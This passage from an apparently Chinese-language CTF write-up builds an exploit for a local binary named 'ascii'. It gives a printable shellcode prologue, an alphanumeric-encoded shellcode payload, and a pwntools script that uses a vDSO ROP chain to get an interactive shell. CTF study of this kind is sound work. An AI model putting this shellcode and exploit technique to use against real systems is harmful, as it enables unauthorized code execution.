 能大段修改的寄存器只有EAX且范围为0x20-0x7e，可以分两步修改。最终使用的Shellcode头部为

```
# Printable
push ebx       //S
pop  eax       //X    =&gt; 0x800000d7
sub  al, 0x7e  //,~   =&gt; 0x80000059
sub  al, 0x53  //,S   =&gt; 0x80000006 =&gt; shellcode begin = 0x80000000 + len(SX,~,S)
```

和shellcode拼接起来就获得了最终的exploit

```
from pwn import *
pop3_ret = 0x00000751 # : pop ebx ; pop esi ; pop ebp ; ret  ;  (1 found)
pop2_ret = 0x00000752 # : pop esi ; pop ebp ; ret  ;  (1 found)
# 0x1f &lt; c &lt; 0x7f
vdso_base = 0x55557000
offset = 172
#payload  = "SX,~,S" # push ebx;pop eax;sub al,0x7e;sub al,0x53
payload  = "QX4PPYIQX4t"
payload += "PYIIIIIIIIIIQZVTX30VX4AP0A3HH0"
payload += "A00ABAABTAAQ2AB2BB0BBXP8ACJJIS"
payload += "ZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS"
payload += "0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE"
payload += "22I2NFOSCRHEP0WQCK9KQ8MK0AA"
payload  = payload.ljust(offset, "x41")
# ROP CHAIN
payload += p32(vdso_base + pop3_ret)
payload += p32(0x41414141)
payload += p32(0x41414141)
payload += p32(0x41414141)
payload += p32(vdso_base + pop3_ret)
payload += p32(0x41414141)
payload += p32(0x41414141)
payload += p32(0x41414141)
payload += p32(vdso_base + pop2_ret)
payload += p32(0x41414141)
payload += "aaa"
io = process("./ascii")
io.sendline(payload)
io.interactive()
```

<br>

**Refer**

[https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/](https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/)

[http://note.heron.me/2014/11/alphanumeric-shellcode-of-execbinsh.html](http://note.heron.me/2014/11/alphanumeric-shellcode-of-execbinsh.html)

[https://nets.ec/Alphanumeric_shellcode](https://nets.ec/Alphanumeric_shellcode)
